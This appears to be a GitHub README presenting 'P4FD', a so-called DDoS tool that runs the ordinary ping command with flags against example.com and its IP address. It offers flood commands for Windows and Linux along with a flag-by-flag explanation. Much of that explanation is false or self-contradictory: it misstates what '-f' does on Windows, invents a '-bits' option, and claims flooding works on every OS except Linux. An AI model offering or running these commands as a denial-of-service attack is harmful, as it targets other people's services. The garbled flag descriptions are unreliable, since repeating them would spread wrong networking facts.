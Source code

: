 ### P4FD (Ping 4 Fast DDOS)
## Another DDOS Tool (Built in to Linux/Windows using the ping tool)

### Importent:
- Microsoft might patch this tool
- Kali or Debian 12 is good, because most of the -commands are working fine

Command: 

For Windows Users:
```js
// Domain
ping example.com -f -t -l 1

// IP
ping 93.184.216.34 -f -t -l 1
```

For Linux (Very Good at ddos pinging)
```node
// Domain
ping example.com -bits 1024 -s 1024

// IP
ping 93.184.216.34 -bits 1024 -s 1024
```

How this works:
```js
ping (URL/IP)
 -f // flood (supported on any OS that has an ping command, Doesnt work on linux)
 -t // run in a loop (THIS DOESNT WORK ON LINUX)
 -l 1 // Send 1 byte (THIS DOESNT WORK ON LINUX)
 -bits 1024 // Run fast (Only on Linux)
 -s 1024 // Send 1024 Bytes (Only works on linux)
```
